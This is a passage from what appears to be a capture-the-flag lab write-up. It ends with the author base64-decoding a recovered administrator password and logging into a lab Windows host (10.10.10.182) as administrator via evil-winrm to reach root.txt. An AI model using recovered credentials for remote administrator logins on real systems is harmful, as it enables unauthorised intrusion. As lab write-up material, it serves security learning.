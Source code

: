 This machine has been quite tedious, especially having to extract the binaries to Windows and decompile them with **dnSpy**, but at least we have learned a lot in the process
````bash
❯ echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
baCT3r1aN00dles#  
````

````powershell
❯ evil-winrm -i 10.10.10.182 -u administrator -p 'baCT3r1aN00dles'
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/29/2025   6:08 PM             34 root.txt
````
![netrunner](/assets/images/netrunner.gif)